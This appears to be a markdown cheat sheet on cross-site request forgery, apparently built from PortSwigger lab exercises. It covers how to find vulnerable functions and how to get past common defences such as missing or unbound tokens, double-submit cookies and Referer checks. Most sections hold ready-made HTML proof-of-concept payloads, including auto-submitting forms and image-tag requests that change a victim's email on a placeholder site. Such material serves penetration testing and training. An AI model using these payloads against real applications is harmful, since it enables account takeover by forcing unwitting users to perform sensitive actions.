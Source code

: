 # Cross-site Request Forgery (CSRF)

## Summary

* [Recon for CSRF](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify Potential CSRF Vectors

* Identify an application function that can be used to perform some sensitive action on behalf of another user without their knowledge, that relies solely on cookies for tracking user sessions, and that contains request parameters that an attacker can fully determine in advance.

* Some examples of sensitive actions can be changing email address, password, shipping address, transferring funds, etc.

* Create an HTML page that performs the request without user interaction.  For GET requests, we can place the vulnerable URL inside of an <img> tag within a src attribute.  For POST requests, we can create a form that contains all the required parameters and issues a request to the vulnerable URL.  JavaScript can then be used to automatically submit the form when the page loads.

* While we have an authenticated session on the application, we can load this HTML page in the same browser to confirm if the request was processed successfully.



### Example Payload:  CSRF attack with GET request

* We can use the “src” attribute within an \<img\> tag to craft the CSRF exploit, or we can simply just use a stand-alone URL.

```html
<html>
<img src="https://VULNERABLE-APPLICATION.net/my-account/change-email?email=TestCSRF%40Test.com" >
</html>
```


### Example Payload:  CSRF attack with POST request

* We need to create a form that contains all the required parameters to submit the request successfully.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

---
---


## Cheat Sheet

### No CSRF Protections

* When no CSRF protections are in place in a state-changing request, we can create an appropriate HTML page that will submit a request to the vulnerable application.

    * Payloads for CSRF GET requests can be a self-contained attack within a URL.  An attacker does not need to host the exploit code in their server.  They just need to send the malicious link to the victim user via social engineering techniques.
    
    * Payloads for CSRF POST requests, we need to create a form with all the data needed to process the request successfully.  An attacker needs to host this code somewhere and send a link of that malicious site, to the victim user. The browser will automatically add the Authenticated Session Cookie(s) to the request, when the user clicks on the link.


### CSRF Protection Bypass - HTTP Method Change

* When the application is using a CSRF Token in a body parameter of a POST request, change the HTTP request method to GET and leave out the CSRF Token parameter.  This can potentially bypass the CSRF defense put in place.  This can happen due to frameworks only implementing CSRF protection on state-changing requests, and state-changing requests should only be done with POST method not GET.


### CSRF Protection Bypass - Remove CSRF Parameter/Value

* When the application uses a CSRF Token as header/parameter, remove the entire CSRF Token parameter and value to potentially bypass this CSRF protection.


### CSRF Protection Bypass – CSRF Token Not Tied to User Session

* CSRF Tokens may not be tied to the user’s session.  The application may just be keeping a pool of valid tokens and if the submitted request contains one of these tokens, then the request will be processed successfully.  An attacker can log into the application, obtain a valid token and use this CSRF token when attacking other users via a CSRF attack.


### CSRF Protection Bypass – CSRF Token Tied to an Arbitrary Cookie

* The CSRF Token may be tied to an arbitrary Cookie.  If the application contains some functionality that allows us to set a cookie in the victim’s browser, we may be able to bypass this protection.  

* The attacker needs to log into the application, obtain a valid CSRF Token and the Cookie that it is mapped too.  Then create a crafted CSRF exploit that will set the known Cookie in the victim’s browser then submit the POST request with the necessary parameters, which should include the known CSRF Token.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```


### CSRF Protection Bypass – Double Submit Cookie Method

* Application was using a double submit cookie for CSRF protection.  There was a CSRF Cookie and a CSRF Token parameter in the state-changing request.  These 2 values contained the exact same data; the application will process the request successfully if those 2 values are equal.

* If the application contains some functionality that allows us to set a cookie in the victim’s browser, we may be able to bypass this protection.  By crafting a payload that will set a cookie in the victim’s browser and supplying the same value as the CSRF Token parameter in the HTML form.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```


### CSRF Protection Bypass - Referer Header Validation Bypass

* If the application is using the Referer header for protection against CSRF, remove the header/value completely and review if the request was processed successfully.  If the request was still successful, we can craft an HTML form that includes some attributes that will cause the browser to drop the “Referer” header with the request.  This will bypass the “protection” in place.


```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```


### CSRF Protection Bypass – Referer Header Validation Bypass

* The application was using the Referer header to defend against CSRF attacks.  The application was only checking to see if a specific domain value was somewhere within the “Referer” header.

* This validation can be easily bypassed by submitting a payload that will inject the required domain value as a query parameter in the “Referer” header.   Which will bypass this restriction, as the application is only checking if the value is somewhere in the header.


```html
<html>
    <meta name="referrer" content="unsafe-url">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?REQUIRED-REFERER-VALUE')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```